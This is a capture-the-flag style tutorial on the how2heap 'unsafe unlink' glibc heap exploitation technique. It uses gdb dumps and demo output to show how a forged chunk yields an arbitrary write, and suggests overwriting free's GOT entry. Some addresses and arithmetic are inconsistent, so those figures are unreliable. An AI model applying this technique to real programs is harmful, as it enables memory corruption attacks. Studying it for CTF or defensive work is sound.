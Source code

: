# Shellphish how2heap unsafe unlink

This is another section from the CTF team Shellphish's how2heap repo. This section is on using an unsafe unlink to get an arbitrary write.

For an example of a ctf problem that uses this, check out: https://github.com/guyinatuxedo/ctf/tree/master/Hitcon16/pwn/sleepyholder

## Process

First we allocate two chunks of size `0x80`:

```
0:	0x80:	0x5652c6b51010
1:	0x80:	0x5652c6b510a0
```
#### Fake Chunk

Chunk `0` is stored in the global variables (bss) section in the address `0x5652c6b510a0`. The first step of this process is that we will create a fake chunk and store it in chunk `0`. This fake chunk will contain the following data:

```
0x0:	0x0
0x8:	0x8
0x10:	fd:	0x5652c6b510a0 - 0x18 = 0x0000555555756018
0x18:	bk:	0x5652c6b510a0 - 0x10 = 0x0000555555756020
```

The `fd` and `bk` values are there to pass the check `(P->fd->bk != P || P->bk->fd != P) == False`.   For this to work, we will need to have fd be `0x5652c6b510a0 - 0x18 = 0x0000555555756018`, since with that check it will be looking for the value 3 qwords forward. In addition to that, we will need bk to be equal to `0x5652c6b510a0 - 0x10 = 0x0000555555756020` since with that check it will be looking for the value 2 qwords forward. 

The `0x8` is there because since chunk pointers are 8 bytes in 64 bit enviornments, the check `*(chunk0_ptr + x) = x` needs that value there so `*(chun0_ptr + 8) = 8`. For the first QWORD, by that check again we would have to put zero so `(chun0_ptr + 8) = 8`.

#### Chunk 1 Metadata

Since we now have our fake chunk, we can go ahead and alter the metadata for chunk `1`. Right not the metadata (chunk header) looks like this:
```
gdb-peda$ x/4g 0x555555757090
0x555555757090:	0x0000000000000000	0x0000000000000091
0x5555557570a0:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/t 0x555555757098
0x555555757098:	10010001
```

We can see that the `previous_size` value at `0x555555757090` is `0x0`. and that the previous in use bit is on at `0x555555757098` (this bit is the least signifcant bit, which we can see is on). We will now change the `previous_size` to be `0x80` and the `previous_in_use_bit` to be 0 (this can be done in a program with a heap overflow, double free, or some other vulnerabillity):

```
gdb-peda$ x/4g 0x555555757090
0x555555757090:	0x0000000000000080	0x0000000000000090
0x5555557570a0:	0x0000000000000000	0x0000000000000000
```

Now the reason why we overwrote `previous_size` to be `0x80` is that it will go back to the start of our fake chunk to start the unlink. We can see that at exactly `0x555555757090 - 0x80 = 0x555555757010` is the start of our fake chunk:

```
gdb-peda$ x/4g 0x555555757010
0x555555757010:	0x0000000000000000	0x0000000000000008
0x555555757020:	0x0000555555756018	0x0000555555756020
```

#### Unlink Write

Now that we have prepared the fake chunk, and chunk `1's` metadata, we can go ahead and free chunk `1` which will cause the unsafe unlink and write over the global variable `0x5652c6b510a0` with `0x0000555555756018`. 

Proceeding that you can write over the actual value of the bss variable by writing `0x18` bytes of data, followed by whatever you want to write over it with. That is because that global variable now points to itself minus `0x18`. With this we can effictively make a pointer to whatever we want to (provided we know the address of what we are pointing to). In the example code, they make a pointer to a local char array. However you can make a ptr (pointer) to other areas such as the got address of the function `free`, that way you can write to it and have a different function called whenever `free` is supposed to be called.

#### Example Running

Below you can see the code for the section running:
```
$	./unsafe_unlink 
Welcome to unsafe unlink 2.0!
Tested in Ubuntu 14.04/16.04 64bit.
This technique can be used when you have a pointer at a known location to a region you can call unlink on.
The most common scenario is a vulnerable buffer that can be overflown and has a global pointer.
The point of this exercise is to use free to corrupt the global chunk0_ptr to achieve arbitrary memory write.

The global chunk0_ptr is at 0x5652c5e17030, pointing to 0x5652c6b51010
The victim chunk we are going to corrupt is at 0x5652c6b510a0

We create a fake chunk inside chunk0.
We setup the 'next_free_chunk' (fd) of our fake chunk to point near to &chunk0_ptr so that P->fd->bk = P.
We setup the 'previous_free_chunk' (bk) of our fake chunk to point near to &chunk0_ptr so that P->bk->fd = P.
With this setup we can pass this check: (P->fd->bk != P || P->bk->fd != P) == False
Fake chunk fd: 0x5652c5e17018
Fake chunk bk: 0x5652c5e17020

We need to make sure the 'size' of our fake chunk matches the 'previous_size' of the next chunk (chunk+size)
With this setup we can pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False
P = chunk0_ptr, next_chunk(P) == (mchunkptr) (((char *) (p)) + chunksize (p)) == chunk0_ptr + (chunk0_ptr[1]&(~ 0x7))
If x = chunk0_ptr[1] & (~ 0x7), that is x = *(chunk0_ptr + x).
We just need to set the *(chunk0_ptr + x) = x, so we can pass the check
1.Now the x = chunk0_ptr[1]&(~0x7) = 0, we should set the *(chunk0_ptr + 0) = 0, in other words we should do nothing
2.Further more we set chunk0_ptr = 0x8 in 64-bits environment, then *(chunk0_ptr + 0x8) == chunk0_ptr[1], it's fine to pass
3.Finally we can also set chunk0_ptr[1] = x in 64-bits env, and set *(chunk0_ptr+x)=x,for example chunk_ptr0[1] = 0x20, chunk_ptr0[4] = 0x20
In this case we set the 'size' of our fake chunk so that chunk0_ptr + size (0x5652c6b51018) == chunk0_ptr->size (0x5652c6b51018)
You can find the commitdiff of this check at https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30

We assume that we have an overflow in chunk0 so that we can freely change chunk1 metadata.
We shrink the size of chunk0 (saved as 'previous_size' in chunk1) so that free will think that chunk0 starts where we placed our fake chunk.
It's important that our fake chunk begins exactly where the known pointer points and that we shrink the chunk accordingly
If we had 'normally' freed chunk0, chunk1.previous_size would have been 0x90, however this is its new value: 0x80
We mark our fake chunk as free by setting 'previous_in_use' of chunk1 as False.

Now we free chunk1 so that consolidate backward will unlink our fake chunk, overwriting chunk0_ptr.
You can find the source of the unlink macro at https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=ef04360b918bceca424482c6db03cc5ec90c3e00;hb=07c18a008c2ed8f5660adba2b778671db159a141#l1344

At this point we can use chunk0_ptr to overwrite itself to point to an arbitrary location.
chunk0_ptr is now pointing where we want, we use it to overwrite our victim string.
Original value: Hello!~
New Value: BBBBAAAA
```
